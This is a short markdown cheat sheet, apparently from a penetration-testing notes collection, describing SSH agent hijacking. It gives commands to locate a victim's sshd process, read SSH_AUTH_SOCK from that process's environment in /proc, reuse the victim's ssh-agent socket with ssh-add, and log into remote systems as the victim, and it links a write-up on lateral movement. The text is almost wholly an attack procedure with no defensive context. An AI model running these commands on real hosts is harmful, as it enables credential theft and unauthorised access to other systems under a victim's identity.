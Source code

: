 # SSH Hijacking

```
# Attacker finds the SSHd process of the victim
ps uax|grep sshd
 
# Attacker looks for the SSH_AUTH_SOCK on victim's environment variables
grep SSH_AUTH_SOCK /proc/<pid>/environ
 
# Attacker hijack's victim's ssh-agent socket
SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l
 
# Attacker can login to remote systems as the victim
ssh remote_system -l vicitm
```

{% embed url="https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement" %}
